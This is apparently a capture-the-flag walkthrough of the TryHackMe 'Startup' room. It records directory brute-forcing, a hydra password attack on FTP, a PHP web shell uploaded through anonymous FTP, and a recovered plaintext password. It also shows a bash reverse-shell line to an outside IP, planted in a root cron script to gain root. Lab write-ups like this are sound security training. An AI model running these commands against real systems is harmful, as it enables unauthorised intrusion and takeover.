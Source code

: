 ```yaml
---

title: Walkthrough - Startup
published: true
---
```


Abuse traditional vulnerabilities via untraditional means.

[https://tryhackme.com/room/startup](https://tryhackme.com/room/startup)

* * *

## Welcome to Spice Hut! 

We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!

* * * 

3 Open Ports

21/tcp open  ftp     syn-ack ttl 61
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61

* * * 

## What is the secret spicy soup recipe? 

![](/assets/startup01.png)

- ``gobuster dir -u http://10.10.52.133/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x txt,html,php --no-error -t 100``

![](/assets/startup02.png)

- We get a username "Maya" from ``notice.txt`` try to use this with hydra to get access to ftp or ssh
- ``hydra -l maya -P /usr/share/seclists/Passwords/rockyou.txt -t 16 10.10.52.133 ftp``
- Upload pentestmonkey shell to /ftp via anonymous ftp
- upgrade shell ``python3 -c 'import pty;pty.spawn("/bin/bash")'``
- ``cat recipe.txt`` to find our first ingredient.

* * * 

## What are the contents of user.txt?

- Our hint is something that doesnt belong...
- Python3 is installed i can ``python3 -m http.server 5000`` and download ``suspicious.pcapng`` from ``/incidents/``
- ``.pcapng`` is a packet capture dump. Can probably open in wireshark.
- checking this out can see a few things such as an attacker uploading a shell.php like me and an incorrect login attempts using ``c4ntg3t3n0ughsp1c3`` as a password....we also see ``lennie``...
- we can login as lennie! and find the flag in their home directory.

![](/assets/startup03.png)

* * * 

## What are the contents of root.txt?

- our hint is scripts and apparently root is running this in their crontab, because inserting ``sh -i >& /dev/tcp/10.2.127.225/6668 0>&1`` into ``/etc/print.sh`` and setting up a listener on my kali gets a root reverse shell.
- ``cat root.txt`` for our final flag.

* * * 